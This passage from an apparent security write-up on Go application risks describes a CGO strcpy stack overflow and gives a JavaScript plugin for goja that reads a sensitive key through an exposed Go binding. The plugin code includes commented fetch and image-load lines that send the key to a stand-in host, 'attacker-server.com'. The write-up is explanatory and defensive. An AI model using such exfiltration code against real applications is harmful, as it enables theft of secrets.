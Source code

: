     - **Exploitation:** The `strcpy` call within the C function `greet` writes past the end of its stack buffer. A sophisticated attacker would craft the input string precisely to overwrite the saved return address on the C stack, redirecting program execution to attacker-supplied shellcode (which might also be part of the input string or placed elsewhere in memory).
        
    - **Simplified Outcome:** The program crashes with a segmentation fault due to memory corruption, as demonstrated in basic buffer overflow exploits.
        
    - **Reference:** This is a classic C vulnerability pattern often discussed in the context of CGO risks.
        
- **PoC 3: JS Plugin Data Exfiltration via Insecure Go Binding (Conceptual)**
    - **Scenario:** Use the `goja` example from the "Vulnerable Code Snippet" section, where `sensitiveApplicationKey` is exposed to JavaScript via the `fetchSensitiveKey()` function.
    - **Attacker Action:** The attacker provides a malicious JavaScript plugin to be executed by the Go application:
        
        ```JavaScript
        
        // malicious_plugin.js
        var sensitiveKey = fetchSensitiveKey(); // Call the exposed Go function
        
        // Attempt to exfiltrate the key.
        // This requires some form of output channel, e.g., network access or logging.
        // Example 1: Using console.log if logs are monitored or accessible
        console.log("ATTACKER_EXFIL_DATA:" + sensitiveKey);
        
        // Example 2: Attempting an HTTP GET request if networking is possible
        // (This might be blocked by a strict sandbox)
        try {
            // In a real browser environment, this would make a request.
            // In goja, direct network access depends on what's exposed or available.
            // If 'fetch' or 'XMLHttpRequest' or a Go func for HTTP is exposed:
            // fetch('http://attacker-server.com/steal?key=' + encodeURIComponent(sensitiveKey));
        
            // A cruder method if only basic image loading works and triggers GETs:
            // var img = new Image(); 
            // img.src = 'http://attacker-server.com/steal?key=' + encodeURIComponent(sensitiveKey);
        } catch (e) {
            // console.log("Network exfiltration attempt failed: " + e);
        }
        ```
        
    - **Exploitation:** The Go application loads and executes `malicious_plugin.js`. The script calls `fetchSensitiveKey()`, retrieves the `sensitiveApplicationKey`, and then attempts to send this key to an attacker-controlled server or log it in a way the attacker can access. The success of exfiltration depends on the capabilities granted to the JavaScript environment by the Go host (e.g., network access, file system access, logging visibility).
    - **Reference:** This illustrates the risks of running untrusted JavaScript code with access to sensitive Go application data, as discussed in relation to `goja` and plugin security.
        

These PoCs serve to make the abstract risks of "memory corruption" or "build-time injection" more tangible. While reading about LDFLAGS injection is informative, seeing a simplified CGO directive and understanding how it could facilitate the loading of a malicious library clarifies the threat. Similarly, visualizing how a JavaScript plugin could invoke an exposed Go function to access and potentially exfiltrate sensitive data makes the danger more immediate.

